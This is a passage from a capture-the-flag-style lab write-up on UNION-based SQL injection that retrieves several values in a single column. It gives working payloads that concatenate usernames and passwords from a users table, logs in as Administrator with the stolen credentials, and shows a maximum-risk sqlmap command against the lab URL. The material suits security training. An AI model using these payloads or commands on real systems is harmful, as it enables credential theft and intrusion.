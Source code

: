 **📍 Retrieving data:**

* Since we know that there is a table called ```users``` that has two columns ```username``` and ```password``` and that we only have one column that return string data which we can control to fetch entries for table ```users```, we can the ```CONCAT``` clause. <br/>
* For example, we can send the following payload: ```'+UNION+SELECT+NULL,CONCAT(username, ':', password)+FROM+users--```, which will return the usernames and passwords seperated with a colon ```:```
![2023-02-24 07_31_49-SQL injection UNION attack, retrieving multiple values in a single column — Mozi](https://user-images.githubusercontent.com/101610095/221108630-87b2756a-6108-4fb7-b74b-c128fc343b2c.png)

* We can also do some cool stuff with ```CONCAT``` like sending the following payload: 
```sql
'+UNION+SELECT+NULL,CONCAT('The password of ', username, ' is : ', password)+FROM+users--
``` 
![2023-02-24 07_34_40-SQL injection UNION attack, retrieving multiple values in a single column — Mozi](https://user-images.githubusercontent.com/101610095/221109005-61fb30cb-537c-465a-afae-3d72e9d8ba90.png)

* We can also use the ```||``` to concat the results, for example:
```sql
'+UNION+SELECT+NULL,username||':'||password+FROM+users--
```
![2023-02-24 07_31_49-SQL injection UNION attack, retrieving multiple values in a single column — Mozi](https://user-images.githubusercontent.com/101610095/221108630-87b2756a-6108-4fb7-b74b-c128fc343b2c.png)


**📍 Solving the lab:**
* Now that we have dumped the credentials, we can go to ```/login``` and login as the ```Administrator``` user and solve the lab !!
<figure><center><img src="https://user-images.githubusercontent.com/101610095/221110694-536b8bc1-c9de-4a38-8bd4-da3b75f997fd.png" width="738" height="423" alt=""></center><center><em><figcaption>Logged in as Administrator</figcaption></em></center></figure>

* 📹  **The entire process can be see in the clip below :**

<div><video controls src="https://github.com/YounesTasra-R4z3rSw0rd/YounesTasra.github.io_Img/blob/main/SQLi_Lab6.mp4?raw=true" muted="false" width="800" height="500"></video></div>


### **<strong><font color="MediumPurple">Automated</font></strong>**
#### **<strong><font color="RosyBrown">SQLmap</font></strong>**
***

**📍 Fetching databases names:**

* <strong><font color="White">Command:</font></strong> 
```console
root@kali# sqlmap --proxy=http://127.0.0.1:8080 -u 'https://0aa8007d033d30a9c0f2d25500e700ca.web-security-academy.net/filter?category=*' -p category --technique=U --threads=5 --level=4 --risk=3 --dbs --batch
```
* <strong><font color="White">Options:</font></strong><br/> 
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; - -proxy=http://127.0.0.1:8080 : Using BurpSuite proxy for debugging purposes <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; -u : Target URL <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; -p : Testable parameter <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; - -technique=U : SQL Injection technique to use. Here i'm using the UNION technique <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; - -threads : Maximum number of concurrent HTTP requests (default 1) <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; - -level : Level of test to perform (5 is MAX) <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; - -risk : Risk of test to perform (3 is MAX) <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; - -dbs : Enumerate databases (schema) names <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; - -batch : Never ask for user input, use the default behavior <br/>
